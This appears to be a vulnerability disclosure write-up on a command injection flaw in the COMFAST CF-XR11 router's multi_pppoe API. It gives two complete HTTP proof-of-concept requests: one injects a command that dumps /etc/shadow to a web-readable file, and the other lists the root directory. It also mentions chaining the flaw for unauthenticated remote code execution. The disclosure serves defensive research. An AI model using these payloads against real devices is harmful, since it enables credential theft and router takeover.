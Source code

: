 # COMFAST CF-XR11 V2.7.2 Command Injection in `multi_pppoe`
ps：This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview
The COMFAST CF-XR11 is an 1800Mbps smart MESH router supporting multiple WAN configurations (e.g., PPPoE, DHCP, static IP) and Wi-Fi Portal authentication.

A command injection vulnerability exists in the COMFAST CF-XR11 (firmware V2.7.2) in the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_423930`). Attackers can inject arbitrary commands via the `phy_interface` parameter in a POST request to `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`, enabling unauthorized access or full device compromise.

![PoC 2 Result: Root Directory Listing](./imgs/0.png)


## Details
- **Vendor**: COMFAST
- **Vendor Website**: http://www.comfast.cn/
- **Product**: COMFAST CF-XR11
- **Firmware**: V2.7.2
- **Firmware Download**: http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar
- **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)


### Description
The `phy_interface` parameter is unsanitized and used in a `system_0` call (`sprintf_0(v78, "ifdown %s; ifup %s", v76, v76)`). When `action` is set to `"one_click_redial"`, malicious input in `phy_interface` (e.g., `br-wan && cat /etc/shadow > /www-comfast/test.txt`) executes arbitrary commands.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## Proof of Concept (PoC)

### PoC 1: Dump `/etc/shadow`
```http
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 110
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{"action":"one_click_redial","phy_interface":"br-wan && cat /etc/shadow > /www-comfast/test.txt","real_num":1}
```

- **Steps**:
  1. Send the request using `curl` or Burp Suite.
  2. Access `http://cflogin.cn/test.txt` to view `/etc/shadow`.
- **Result**: The `/etc/shadow` file is written to `/www-comfast/test.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/2.png)
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

### PoC 2: List Root Directory (`ls /`)
```http
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 110
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{"action":"one_click_redial","phy_interface":"br-wan && ls / > /www-comfast/test.txt","real_num":1}

```

- **Steps**:
  1. Send the request.
  2. Access `http://cflogin.cn/test.txt` to view the root directory listing.
- **Result**: The root directory listing is written to `/www-comfast/test.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/4.png)
![PoC 2 Result: Root Directory Listing](./imgs/5.png)

## Affected Versions
- COMFAST CF-XR11 V2.7.2
